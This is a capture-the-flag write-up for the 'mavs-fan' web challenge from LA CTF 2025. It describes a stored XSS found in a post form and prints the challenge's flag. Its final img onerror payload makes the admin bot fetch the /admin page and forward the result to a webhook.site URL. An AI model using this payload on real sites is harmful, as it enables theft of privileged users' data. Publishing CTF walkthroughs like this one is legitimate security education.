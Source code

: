 # mavs-fan

## Background

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...<br>
Hint - You can send a link to your post that the admin bot will visit. Note that the admin cookie is HttpOnly!<br>
Site - mavs-fan.chall.lac.tf<br>
Admin Bot - https://admin-bot.lac.tf/mavs-fan

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image.png)

- **Difficulty: Easy**
- **This challenge has source code: [mavs-fan.zip](https://github.com/vodanh1903/CTF-Writeups/blob/main/LA-CTF-2025/Web/mavs-fan/mavs-fan.zip)**

## Enumeration

Index page:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-1.png)

In this page, we have an input field and this challenge has an admin bot, so it's could be an client-side vulnerability. But first I will give it some input to see how it processes:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-2.png)

Click `Send Message` and it will redirect us to another page, which contains a post and our input:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-3.png)

Okay, so I will try to exploit XSS by giving it a simple payload for testing XSS `<script>alert(1)</script>`, click `Send Message`:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-4.png)

Hmm, it seems like my payload doesn't work. I will inspect this page to see if it has filtered my payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-5.png)

Oh, my payload is still on the page and it seems not to be sanitized. So the payload may be successfully executed but the backend somehow handles it so it won't show to the client. Then I will test a payload with `img` tag to see if it's executed before looking through the source code. My payload: `<img src=x onerror="alert(1)"/>`.<br>

Explain about the payload:<br>
1. We will use the `img` tag with `src` attribute and `onerror` attribute. 
2. The `src=x` will cause an error because the `x` doesn't exist, and when an error appears, the `onerror="alert(1)"` get executed.<br>

The result when I send the payload:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-6.png)

The payload works! Now, I need to look for the source code to see where and how I can read the flag.<br>
> Reading the source code, Idk why the `script` tag can't be executed cause I see no filter apllied on our input, maybe the web page has WAF which blocks the `script` tag or am I missing something???<br>
In `app.js`, we can see that the flag is located at the endpoint `/admin`:

```js
[...]
app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
[...]
```

To read the flag, we need the cookie of the admin and we have the admin bot!.

## Exploitation

So, the idea is:
1. We let the admin bot read the content of endpoint `/admin`
2. We will make the bot send the content to our domain ( I will use [webhooks.site](https://webhook.site/) ), so we can read the flag!<br>

This is my payload for this challenge: `<img src="x" onerror="fetch('https://mavs-fan.chall.lac.tf/admin') .then(res => res.text()) .then(data => { fetch('https://webhook.site/273fb9ed-bb43-424f-b0b9-ceed3f8c3d22/?d='+encodeURIComponent(data)); });" />`.<br>

Explain about the payload:
1. First, we will use `img` tag to execute XSS which I've explained above.
2. When the `onerror` is loaded, we will make the bot read the content of the endpoint `/admin` through [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API).
3. Then, we will use [`then()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then) to handle the data, the content of the endpoint `/admin` will be assigned to `res` and then it can be read through `res.text()`.
4. Next, we will use `then()` again and assign `res.text()` to `data` and make the bot send the `data` to our webhook through `d` parameter with `fetch()`. (Remember to use [`encodeURIComponent()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) if you want to dynamically assemble string values into a URL)<br>

Back to the exploitation, we will save this payload to a post like we did before:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-7.png)

Next, we will send the url to our post to the admin bot, so it will read the post and then the payload will be executed:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-8.png)

Click `Submit` and we should receive the flag on our webhook:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/LA-CTF-2025/images/image-9.png)

- **Flag: `lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`**

## Conclusion

What we've learned:

1. Cross-site Scripting (XSS)